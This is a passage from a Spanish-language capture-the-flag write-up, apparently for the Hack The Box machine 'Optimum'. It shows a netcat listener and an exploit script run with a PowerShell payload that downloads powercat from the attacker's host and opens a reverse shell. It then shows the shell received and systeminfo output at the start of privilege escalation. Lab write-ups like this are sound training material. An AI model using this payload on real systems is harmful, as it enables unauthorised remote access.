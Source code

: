```bash
❯ rlwrap nc -lvnp 1234
listening on [any] 1234 ...

```
<br>
5 - Lanzamos el script y le pasamos el payload:

```bash
❯ python3 RCE_Optimum.py
Introduzca el payload deseado: c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.5:8000/powercat.ps1');powercat -c 10.10.16.5 -p 1234 -e cmd

```
<br>
6 - Recibimos la shell:

```bash
❯ rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.8] 49327
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

whoami
optimum\kostas

```

## ESCALADA DE PRIVILEGIOS
<br>
<h3 style="text-align:center" id="recon">RECONOCIMENTO DEL SISTEMA</h3>
<hr>

Con el comando `systeminfo` obtenemos la versión del SO:

```sh
systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00252-70000-00000-AA535
Original Install Date:     18/3/2017, 1:51:36 
System Boot Time:          5/9/2022, 10:37:00 
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest
Total Physical Memory:     4.095 MB
Available Physical Memory: 3.438 MB
Virtual Memory: Max Size:  5.503 MB
```
